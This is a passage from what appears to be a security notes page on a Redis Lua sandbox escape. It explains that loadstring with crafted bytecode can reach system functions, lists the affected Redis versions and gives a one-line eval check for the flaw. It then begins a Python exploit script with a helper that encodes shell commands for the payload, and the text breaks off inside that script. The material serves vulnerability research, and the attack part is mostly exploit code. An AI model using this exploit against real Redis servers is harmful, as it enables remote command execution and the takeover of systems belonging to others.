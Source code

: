 ```bash
redis.call() is similar to redis.pcall(), the only difference is that if a Redis command call will result in an error, redis.call() will raise a Lua error that in turn will force EVAL to return an error to the command caller, while redis.pcall will trap the error and return a Lua table representing the error.

## examples
> del foo
(integer) 1
> lpush foo a
(integer) 1
> eval "return redis.call('get','foo')" 0
(error) ERR Error running script (call to f_6b1bf486c81ceb7edf3c093f4c48582e38c0e791): ERR Operation against a key holding the wrong kind of value
> EVAL "return redis.pcall('get','foo')" 0
(error) ERR Operation against a key holding the wrong kind of value
```

http://www.redis.cn/commands/eval.html

#### Redis Sandbox

脚本应该仅仅用于传递参数和对 Redis 数据进行处理，它不应该尝试去访问外部系统(比如文件系统)，或者执行任何系统调用。

> 正常情况下，redis的lua引擎只允许执行call、pcall这2个api，不能执行复杂函数，这相当于一个lua sandbox，但是lua支持loadstring直接加载binary opcode字节码，而这种shellcode字节码可以逃过sandbox的限制，通过shellcode的方式可以直接动态获取到system这种敏感函数的地址

### Vuls Targets

Redis:

2.6.0(?) < 2.8.21

3.x < 3.0.2

### PoC

```bash
eval "return tostring(loadstring(string.dump(function() end)))" 0
# vul : "function: 0x7fdcd8439df0"
# patched : "nil"
```

### Exp

```python
#!/usr/bin/env python
# https://www.reddit.com/r/netsec/comments/4a93eo/analysis_of_vm_escape_by_using_lua_script/d0zcsgl

import sys
import time
import getopt
import socket

'''
Gives the hexadecimal representation of "command"
'''
def cmdtohex(command):
	pattern = "dwords_to_double(0x%s, 0x%s),"

	command = command.ljust(16, '\0')

	c1 = command[0:4][::-1].encode("hex")
	c2 = command[4:8][::-1].encode("hex")
	c3 = command[8:12][::-1].encode("hex")
	c4 = command[12:16][::-1].encode("hex")

```